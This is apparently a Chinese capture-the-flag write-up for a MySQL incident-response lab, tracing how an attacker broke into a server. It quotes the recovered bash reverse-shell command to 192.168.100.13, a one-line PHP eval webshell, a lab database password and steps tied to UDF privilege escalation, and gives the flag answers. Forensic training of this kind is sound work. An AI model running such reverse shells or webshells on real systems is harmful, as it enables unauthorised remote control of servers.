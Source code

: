 # 第二章-日志分析-Mysql应急响应

  
  
&lt;!--more--&gt;  
1.黑客第一次写入的shell flag{关键字符串}   
2.黑客反弹shell的ip flag{ip}  
3.黑客提权文件的完整路径 md5 flag{md5} 注 /xxx/xxx/xxx/xxx/xxx.xx  
4.黑客获取的权限 flag{whoami后的值}  
在`/tmp/1.sh`中反弹了`shell`  
`bash -i &gt;&amp;/dev/tcp/192.168.100.13/777 0&gt;&amp;1`  
放到河马查杀，得到`sh.php`  
```php  
1 2 &lt;?php @eval($_POST[&#39;a&#39;]);?&gt; 4  
  
//ccfda79e-7aa1-4275-bc26-a6189eb9a20b  
```  
根据上面写入`webshell`的格式 所以猜测可能是`udf`提权  
查看源码得到`mysql`密码  
```php  
&lt;?php  
$conn=mysqli_connect(&#34;localhost&#34;,&#34;root&#34;,&#34;334cc35b3c704593&#34;,&#34;cms&#34;,&#34;3306&#34;);  
if(!$conn){  
echo &#34;数据库连接失败&#34;;  
}  
```  
`show variables like &#39;%plugin%&#39;;`  
`cd /usr/lib/mysql/plugin/` 得到 `udf.so`  
`ps -aux`查看mysql服务是以什么用户启动的  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202403151520766.png)
因为是`mysql`用户启动，所以提权后也是`mysql`用户的权限  
`flag{mysql}`  

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/%E7%AC%AC%E4%BA%8C%E7%AB%A0-%E6%97%A5%E5%BF%97%E5%88%86%E6%9E%90-mysql%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94/  

